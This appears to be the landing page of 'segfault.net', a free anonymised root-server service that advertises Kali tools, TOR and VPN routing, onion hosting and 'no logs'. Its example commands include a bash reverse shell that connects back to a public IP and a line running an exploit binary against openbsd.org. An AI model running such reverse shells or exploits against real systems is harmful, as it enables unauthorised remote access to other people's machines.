

<div style="text-align:center"><h1>Disposable Root Servers</h1></div>

<div style="width:80%; margin:auto">
</div>

### Log in

```shell
ssh root@segfault.net # The password is 'segfault'
```

{:refdef: style="text-align: center;"}
{:height="80%" width="80%"}
{: refdef}

### What it does

Segfault offers free unlimitd Root Servers. A new server (inside a Virtual Machine) is created for every SSH connection. 

* Dedicated ```Root Server``` for every user.
* Pre-installed tools on Kali-Linux.
* Outgoing traffic is routed through NordVPN/CryptoStorm/Mullvad.
* Reverse TCP/UDP port on a public IP.
* Transparent TOR to connect to ```.onion``` addresses.
* Log in via ```.onion```, ```.gsocket``` or direct ```ssh``` (port 22 or 443).
* Encrypted DNS traffic (DNS over HTTPS).
* Pre-configured ```.onion``` web server. Just put your files in /onion.
* Encrypted storage in ```/sec``` and ```/home``` with your password. 
* Encrypted storage is only accessible while you are logged in. Keys are wiped on log out.
* Only the user can decrypt the data. We do not have the key.
* No Logs.

### Show me!

The servers are a great place to compile *stuff* and to test *stuff*.

**Install any app you like:**
```shell
apt install nmap && nmap -thc
```

**Work the Internet**
```shell
ping 1.1.1.1
curl ipinfo.io | jq
ssh blah@anotherserver.com
./7350-sshx3-expl openbsd.org
```

**Publish your webpage on the Darknet:**
```shell
# Share files anonymously:
echo "My First File Shared on The Onion Router (TOR) network" >/onion/helloworld.txt
```
```shell
# Or publish a full webpage (using Markdown syntax):
# Edit your webpage in /sec/www/content/*.md and then publish them:
cd /sec/www && make html
```

**Work the DarkNet:**
```shell
w3m http://6nhmgdpnyoljh5uzr5kwlatx2u3diou4ldeommfxjz3wkhalzgjqxzqd.onion/
ssh root@ta6kb6vqm3vd7vlgvf7k4nbhfzst2yfy52t6dqzmz2plteewn7ynmtad.onion
```

**Connect to IRCNet:**
```shell
su user -c "irssi -c ircnet -n MyNickName"
```

**We allow port forwarding and proxies:**
```shell
ssh -D 1080 root@segfault.net
# then from another Terminal on your workstation:
curl -x socks5h://0 ipinfo.io
curl -x socks5h://0 http://6nhmgdpnyoljh5uzr5kwlatx2u3diou4ldeommfxjz3wkhalzgjqxzqd.onion/ 
```

**Connect to your own public PORT:**  
```shell
# On your server:
nc -vnlp 34868 # Find your IP & PORT during first log in.
```
```shell
# On another server start a connect back reverse shell to your IP & PORT:
setsid bash -i &>/dev/tcp/185.117.118.23/34868 0>&1 &
```

### How it works

Read the [FAQ](faq) and join us on [Telegram](https://t.me/thcorg) or read the source on [GitHub](https://github.com/hackerschoice/segfault).

This is a **free service** and there are [some restrictions](youcheapfuck) in place. You may want to [pay for an upgrade and go unrestricted](buy-an-upgrade).

### Contact

Twitter: [https://twitter.com/hackerschoice](https://twitter.com/hackerschoice)  
Telegram: [https://t.me/thcorg](https://t.me/thcorg)  
Web: [https://www.thc.org](https://www.thc.org)  
Medium: [https://medium.com/@hackerschoice](https://medium.com/@hackerschoice)  
E-Mail: members@thc.org  
